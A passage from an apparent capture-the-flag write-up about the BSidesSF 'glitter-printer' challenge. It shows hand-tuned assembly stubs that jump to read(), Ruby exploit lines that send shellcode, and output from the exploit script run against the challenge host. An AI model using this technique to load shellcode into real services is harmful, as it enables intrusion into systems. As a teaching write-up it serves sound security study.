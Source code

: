 ; Get the address of read() - this is a set-in-stone address, but because we're
; limited to very small instructions, I do effectively 'sub ecx, &lt;constant value&gt;'
; over and over to nudge it to where it needs to be:
30 c9   xor cl, cl
49 90   dec ecx / nop
30 c9   xor cl, cl
49 90   dec ecx / nop
30 c9   xor cl, cl
49 90   dec ecx / nop
30 c9   xor cl, cl
49 90   dec ecx / nop
30 c9   xor cl, cl
49 90   dec ecx / nop
30 c9   xor cl, cl
49 90   dec ecx / nop
30 c9   xor cl, cl
49 90   dec ecx / nop
30 c9   xor cl, cl

; At this point, ecx points to the absolute start of the code. read() is 0x11
; bytes from the start, so effectively add 0x11 to ecx
b1 11   mov cl, 11 ; Offset to read()

; Now that ecx points to read(), we can just jump to it (remember, the return
; address isn't set by call; it was set earlier, so read() will return straight
; into the buffer it's reading into (kinda like ROP)
ff e1   jmp ecx
</pre>
So this will jump to the <tt>read()</tt> call. Read will look at its stack for its arguments, which we put there. Then it does the syscall, reading whatever we send next into an executable part of memory. This destroys all the memory that was there, and replaces it with our own shellcode (you can use literally any shellcode for that). Being able to overwrite arbitrary executable memory is really, really bad in a real application - you never want +wx memory (in fact, there's a concept called <tt>w^x</tt>, which implies that if you have memory that's either writable or executable, it can't be the other simultaneously).

When <tt>read()</tt> wants to return, it looks at the stack to find the return address. Since we pushed the buffer's address to the stack in lieu of doing an actual <tt>call</tt> instruction, the next thing on the stack is the buffer. So it returns to the buffer, then executes it.

One that's done, all we have to do is call the function that we modified and then send over our shellcode:
<pre># Trigger the "call eax", finally
S.write("\x040\n")

# When the call runs, it'll (hopefully) stop at read() and wait for code to run
S.write(SHELLCODE)
</pre>
And watch it in action:
<pre>$ ruby ./sploit.rb glitter-printer-373f4c45.challenges.bsidessf.net 515
Current: ff7885c7
Desired: ff78d0ff
(Fast - non-multiple of 8) incrementing by 19256
Writing to 798 (0 / 4b38)...
Writing to 4000 (2eb / 9059)...
Writing to 4008 (2eb / 9056)...
Writing to 4010 (2eb / 9051)...
Writing to 4018 (2eb / 6a)...
Writing to 4020 (2eb / 9051)...
Writing to 4028 (2eb / c930)...
Writing to 4030 (2eb / 9049)...
Writing to 4038 (2eb / c930)...
Writing to 4040 (2eb / 9049)...